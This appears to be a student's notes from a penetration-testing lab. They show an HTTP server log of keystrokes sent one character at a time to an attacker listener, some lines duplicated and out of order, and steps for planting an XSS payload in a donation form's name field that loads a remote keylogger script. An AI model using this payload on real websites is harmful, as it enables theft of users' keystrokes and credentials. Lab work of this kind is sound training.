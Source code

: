 ```bash
192.168.240.101 - - [05/Aug/2024 19:41:49] "GET /k?key=v HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:49] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:49] "GET /k?key=o HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:49] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:49] "GET /k?key=r HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:49] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:49] "GET /k?key=c HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:50] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:50] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:50] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:50] "GET /k?key= HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:50] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:50] "GET /k?key=L HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:50] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:50] "GET /k?key=a HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:50] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:50] "GET /k?key=w HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=y HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=r HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key= HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=N HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=r HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key= HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:51] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:51] "GET /k?key=N HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key=e HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key=a HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key=r HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key= HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:52] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:52] "GET /k?key=M HTTP/1.1" 404 -
192.168.240.101 - - [05/Aug/2024 19:41:53] code 404, message File not found
192.168.240.101 - - [05/Aug/2024 19:41:53] "GET /k?key=e HTTP/1.1" 404 -

```

##### Labs
![[Pasted image 20240805164438.png]]
use the `payload` in the `Donate tab` under the `name=` variable, once submitted it will be changed to `URL-Encoding` hit `Search` and `Render` with the `Simulate Keystrokes` option selected
```bash
<script src="http://192.168.45.236:80/xss4.js"></script>
```
![[Pasted image 20240805155212.png]]
Rendering
![[Pasted image 20240805155040.png]]
Check `python3 server` for flag `OS{`
```bash
```